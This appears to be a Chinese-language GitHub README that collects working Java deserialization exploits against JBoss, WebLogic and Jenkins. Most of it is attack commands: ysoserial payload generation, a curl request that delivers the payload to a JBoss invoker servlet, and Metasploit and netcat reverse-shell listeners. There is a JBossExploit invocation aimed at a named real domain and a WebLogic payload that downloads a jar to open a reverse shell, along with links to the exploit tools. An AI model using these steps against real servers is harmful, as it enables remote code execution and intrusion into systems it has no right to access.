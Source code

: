 ## JavaDeserialization


###jboss：

#####一

```
▶ java -jar ysoserial-0.0.2-all.jar
Y SO SERIAL?  
Usage: java -jar ysoserial-[version]-all.jar [payload type] '[command to execute]'  
    Available payload types:  
        CommonsCollections1 #jboss用這個我測試過一次可行  
        CommonsCollections2 #剩下的沒測試過  
        Groovy1  
        Spring1  

▶ java -jar ysoserial-0.0.2-all.jar CommonsCollections1 'command' >/tmp/payload
▶ curl --header 'Content-Type: application/x-java-serialized-object; class=org.jboss.invocation.MarshalledValue' --data-binary '@/tmp/payload' http://127.0.0.1:8080/invoker/JMXInvokerServlet
```

[ysoserial-0.0.2-all.jar](https://github.com/frohoff/ysoserial/releases)  

####二  
JBossExploit運行需要外網地址。  

session 1:

```
▶ssh kali
root@Kali:~# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set payload linux/x86/shell/reverse_tcp
msf exploit(handler) > set LHOST 123.123.123.123
msf exploit(handler) > set LPORT 999
msf exploit(handler) > exploit
```

session 2:

```
▶ssh kali
root@Kali:~# java -jar JBossExploit.jar -lhost 123.123.123.123 -lport 999 -rhost baidu.com -rport 80 -srvport 4040
```

[JBossExploit](https://github.com/njfox/Java-Deserialization-Exploit)  

####三
可眎化Jboss執行命令並回顯工具：  
[JBOSS_EXP.jar](http://www.freebuf.com/tools/88908.html)


###weblogic：  

```
▶ javac -classpath commons-collections-3.2.jar Main.java
▶ java Main.class
```

Main.java的作用是生成一個從url下載jar包的payload，jar包執行反彈shell。  
已打包為weblogic.jar，iswin.jar下載地址為~~原作者提供~~我的地址，有需要重新編譯源碼替換class就好啦。   
~~替換成[github](https://github.com/hackzx/JavaDeserialization/raw/master/iswin.jar)的jar。~~測試不能。

```
usage:  
  java -jar weblogic.jar [ip/domain] [port] [out_payload_file]

```

```
▶ java -jar weblogic.jar [ReverseIP] 888 /tmp/payload
▶ python weblogic.py [TargetIP] 7001 /tmp/payload
▶ ssh kali
root@Kali:~# nc -vv -l -p 888
```

[weblogic.jar](https://github.com/hackzx/JavaDeserialization/raw/master/weblogic.jar)  
[commons-collections-3.2.jar](http://archive.apache.org/dist/commons/collections/binaries/commons-collections-3.2.zip "Main.jar依賴包")  
[Main.java](http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/ "TransformedMap的实现方式")  
[weblogic.py](https://github.com/schinkelg/JavaUnserializeExploits/blob/master/weblogic.py "自動添加包頭的修正腳本")

###jenkins

https://github.com/CaledoniaProject/jenkins-cli-exploit  


--

更多更多的鏈接：  
http://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/  
http://www.secpulse.com/archives/40420.html  
http://www.iswin.org/2015/11/13/Apache-CommonsCollections-Deserialized-Vulnerability/  
https://github.com/foxglovesec/JavaUnserializeExploits  
https://github.com/njfox/Java-Deserialization-Exploit  
http://zone.wooyun.org/content/23905  